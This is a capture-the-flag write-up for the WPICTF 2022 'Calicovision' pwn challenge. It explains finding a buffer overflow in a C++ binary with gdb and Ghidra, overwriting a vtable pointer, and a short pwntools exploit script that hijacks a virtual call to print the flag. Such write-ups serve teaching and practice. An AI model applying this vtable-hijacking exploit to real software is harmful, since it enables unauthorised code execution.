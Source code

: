```yaml
---
title: "WPICTF 2022 - PWN - Calicovision"
description:
date: 2022-11-05T10:00:00+02:00
image: gdb_overflow.png
math:
license:
hidden: false
comments: true
draft: false
tags:
  - pwn
  - reverse
categories:
  - writeup
---
```


This post was written in 2022, but I had never posted it by accident. Published in October 2024.
{.note}

# Introduction

To continue our previous post about the WPICTF 2022 (online, hosted by [Worcester Polytechnic Institute Cyber Security Club](https://wpictf.xyz/)), we will focus our attention on a pwn challenge. And to change, this time we'll use [Ghidra](https://ghidra-sre.org/) rather than [Cutter](https://cutter.re/) 😎

A x64 ELF binary is provided with this challenge, no code is given.

## Recon

We explore the terminal user interface (TUI) of the binary, and we find the potential buffer overflow in the `B - Name a cat` submenu. Let's try to get the offset with [gdb-peda](https://github.com/longld/peda):
```shell
$ pattern create 100
$ r
B
[paste pattern]
A
[=> overflow (no RIP erase)]
$ pattern_search
[=> overflow (RAX erase and RIP pointing to call [RAX])]]
```

As we can see, it will not be that trivial to exploit the vulnerability since `RIP` is not directly controlled. However, we can see that `RIP` will point to a `call` instruction, with the function address stored in `RAX`, and `RAX` retrieve this function adress from the value pointed by `R12`:
![](gdb.png)

So, to summarize:
- We can change what is pointed by `R12` with the overflow,
- This will change the value of `RAX`,
- `RAX` is then used as a function pointer in a `call`,
  
We can translate in pseudo-code what is happening `call *(*(R12))`, or simpler:
```r
R12 = &(overflow[??])
call *(*R12) = call *overflow[??]
```

Then, we can control the flow and if we change what is pointed by `R12` to a pointer to a vulnerable code, we win.

Without reversing we already have a lot of information, but to validate our hypothesis we will have to open [Ghidra](https://ghidra-sre.org/). We quickly find that the code is in C++ (good news) and therefore there is a lot of garbage code. We start to focus on the `Cat` structure (we can make the hypothesis that it's a class) and find some interesting information using the structure editor of Ghidra:
![](ghidra_cat.png)

As we can see, the `Cat` class is composed of a `name` field of 64 bytes (where the overflow is happening) and a super interesting function pointer `vptr_Cat`. We know that this a sign of a `vtable` and confirm that `Cat` is a class, that surely deal with inheritance.

As a reminder of what a `vtable` is, let's read a bit of [Wikipedia](https://en.wikipedia.org/wiki/Virtual_method_table):

> In computer programming, a virtual method table (VMT), virtual function table, virtual call table, dispatch table, vtable, or vftable is a mechanism used in a programming language to support dynamic dispatch (or run-time method binding). Whenever a class defines a virtual function (or method), most compilers add a hidden member variable to the class that points to an array of pointers to (virtual) functions called the virtual method table. These pointers are used at runtime to invoke the appropriate function implementations, because at compile time it may not yet be known if the base function is to be called or a derived one implemented by a class that inherits from the base class. 

> Typically, the compiler creates a separate virtual method table for each class. When an object is created, a pointer to this table, called the virtual table pointer, vpointer or VPTR, is added as a hidden member of this object. As such, the compiler must also generate "hidden" code in the constructors of each class to initialize a new object's virtual table pointer to the address of its class's virtual method table. 

Since everything is better explained with a diagram, here is one:

![](https://www.learncpp.com/images/CppTutorial/Section12/VTable.gif)

If you want to delve deeper into the subject, a good reference is available here: [SMASHING C++ VPTRS](http://phrack.org/issues/56/8.html). We can see the `vtable` in `gdb`:
![](gdb_vtable.png)

So, we know via `gdb` that we need to deal with a function pointer to exploit the buffer overflow, and we just saw that the overflowable `Cat` class contains a `vptr`. We are close to victory, now we just have to make a choice to exploit the situation:
- Place our own `vtable` (pointer) in memory and make `R12` point to it,
- Use the current `vtable`, but call a vulnerable function.

The second option is the simplest, but we need to dig a bit more to make a definitive choice. So let's check the binary's protections:
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

That's good, we can use both techniques without issue (we don't have to deal with any canaries for this buffer overflow). Now let's find the offset to control `R12`:
![](gdb_overflow.png)

The offset is `64 (name) + 8 (padding)` to control what is pointed by `R12` and therefore `RAX`. We can now search for a vulnerable function in Ghidra by searching for a reference to `flag.txt` (CTF classic):
![](ghidra_vuln_fn.png)

Vulnerable function found, in place of the `pet` function of the `HackerCat` structure. After a bit more digging in [Ghidra](https://ghidra-sre.org/), we know that `HackerCat` inherit from the `Cat` class, and that the function `pet` is a virtual function. Therefore, to call this function the binary will use the `vtable` of the concerned object.

To call a virtual function at runtime, the binary will use this format: `(*(vtable_addr) + function_offset)()`. After a quick look in Ghidra we can find that the `pet` virtual function is not the first in the `vtable` (`function_offset` is not `0`), and therefore a call to this function will have this form:
```
vptr = &vtable
pet_fn_offset = ??
call [*(vptr + pet_fn_offset)]
```

However, we found that a virtual function is called when doing `A - List all cats`, and it's the first in the `vtable` (`function_offset` is `0`). Therefore we end with this layout:
```
vptr = &vtable
call [*vptr]
```

So we have again two possibilities:
- We can make an exploit using `C - Pet a cat` that will call the `pet` virtual function. This implies using the `vtable` of the `HackerCat` class to be able to call the `HackerCat::pet` win function.
- We can use `A - List all cats` that call another virtual function. This implies replacing a virtual function address with `HackerCat::pet`.

In a diagram this translates to (we find at the top the initial situations, and at the bottom the corresponding exploitation path):
![](exploits.svg)

Both options are good, but let's take the second option that is simpler to debug. Let's retrieve the `vtable` address of `HackerCat` and the address of the pointer to `HackerCat::pet` in the same table:
![](ghidra_vtable.png)

Now, our plan is complete and, since there are no particular protections, we can test everything locally and find the right addresses, then we will just have to replay the same sequence on the online address. The plan is therefore as follows:
- We know that we can overwrite the address of the `vtable` of `Cat` objects.
- We know that pointers to (virtual) functions in this `vtable` are called for `A - List all cats` and `C - Pet a cat` TUI commands.
- We know that the function which will give us the flag is `HackerCat::pet`.
- We know that if we replace the `vptr` pointer of a `Cat` object with the `HackerCat::pet` pointer of the `vtable` we win.

So we just have to send an input in the menu "B - Name a cat" which contains the overflowable input with 72 bytes of garbage and then the address of the pointer to the function `HackerCat::pet`, which can be found in the vtable of `HackerCat` via [Ghidra](https://ghidra-sre.org/). This gives us the following exploit (that is very simple, but we like overthinking here):
```python
from ctypes import LittleEndianStructure
from gc import garbage
from pwn import *

context.arch = 'amd64'
context.endian = 'little'

r = remote('calicovision.wpi-ctf-2022-codelab.kctf.cloud', 1337)

# since we can erase the vtable address, the form of the call will be (*(vtable))()
# so we need to place the address of a pointer to the right function
# to do that, we can use the vtable of the already existing object we want to use (HackerCat)

# Trigger the BOF
garbage = b'A' * 72
# Here we place the address of the vtable pointer to HackerCat::pet => 0x5b0078.
function_address = p64(0x5b0078)
exploit = garbage + function_address

print(r.recvlines(13))
# B - rename cat
r.sendline('B')
# New name = exploit
r.sendline(exploit)
# A - list cats
r.sendline(b'A')

print(r.recvall(timeout=2))

r.close()
```

And we get the flag: `WPI{c0rrup73d_c475_cr3473_ch405}`.

In the end, this was very simple, but allowed us to manipulate `vtables` and many tools.
